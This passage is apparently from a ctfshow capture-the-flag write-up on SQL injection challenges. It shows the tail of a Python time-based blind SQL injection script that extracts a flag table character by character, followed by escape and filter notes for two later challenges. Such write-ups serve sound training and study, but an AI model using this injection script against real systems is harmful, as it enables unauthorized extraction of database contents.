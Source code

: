 ```python
        # 查表名
        # payload = "select column_name from information_schema.columns where table_name='flag233333' limit 1,1"
        # 查数据
        payload = "select flagass233 from flag233333"
        data = {
            'username': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(0.05),1)#",
            'password': '4'
        }
        try:
            r = requests.post(url, data=data, timeout=0.9)
            tail = mid
        except Exception as e:
            head = mid + 1
    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```



#### web234

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //无过滤

```

同web233，用\实现逃逸



#### web235

```php
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //过滤 or ' 

```
